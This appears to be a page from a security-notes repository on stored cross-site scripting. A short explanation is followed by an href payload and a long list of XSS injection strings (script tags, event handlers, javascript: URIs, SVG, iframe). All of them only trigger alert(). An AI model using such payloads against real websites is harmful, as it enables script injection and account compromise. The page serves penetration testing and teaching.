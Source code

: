 ## What is stored XSS?
Stored Cross-Site Scripting (Stored XSS) involves a three-step process. First, the attacker submits a malicious script through an input that stores data on the server, such as a form field or user profile. This script could be saved to a database, log file, or other data storage. Second, unlike reflected XSS, where the malicious script is immediately sent back to the user, stored XSS results in the script becoming a permanent part of the data on the server. Finally, the execution phase occurs when any user accesses the page or section where the malicious script resides. Since the script appears to be part of the legitimate content of the website, the user's browser executes it without recognizing its malicious nature, leading to potential security breaches such as data theft or account hijacking.
## Examples of attacks
##### ***Stored XSS in href attribute***
If there is input being stored in an href attribute you can use a simple payload like `javascript:alert(1)` to test if it is working.

```
<a id="author" href="javascript:alert(8007)">random input</a>
```

***XSS payloads***
```
document.write('<script>alert("Hello!");</script>');
document.body.innerHTML = '<script>alert("Hello!");</script>';
var script = document.createElement('script');
script.textContent = 'alert("Hello!");';
document.body.appendChild(script);
$('body').html('<script>alert("Hello!");</script>');
$('body').append('<script>alert("Hello!");</script>');
<button onclick="eval('alert(\'Hello!\')')">Click me</button>
<a href="javascript:alert('Hello!')">Click me</a>
var script = document.createElement('script');
script.setAttribute('type', 'text/javascript');
script.text = 'alert("Hello!");';
document.body.appendChild(script);
var script = document.createElement('script');
script.type = 'text/javascript';
script.textContent = 'alert("Hello!");';
document.head.appendChild(script);
<img src="nonexistent.jpg" onerror="alert('Hello!')">
<div style="background:url('javascript:alert(\'Hello!\')')">Test</div>
document.body.insertAdjacentHTML('beforeend', '<script>alert("Hello!");</script>');
var script = document.createElement('script');
script.text = 'alert("Hello!");';
document.body.insertBefore(script, document.body.firstChild);
<link rel="stylesheet" href="javascript:alert('Hello!')">
<iframe src="javascript:alert('Hello!')"></iframe>
<object data="javascript:alert('Hello!')"></object>
<style>*{x:expression(alert('Hello!'))}</style>
<meta http-equiv="refresh" content="0;url=javascript:alert('Hello!')">
<base href="javascript:alert('Hello!')">
<a href="//">Click me</a>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('Hello!')</script>
</svg>
```
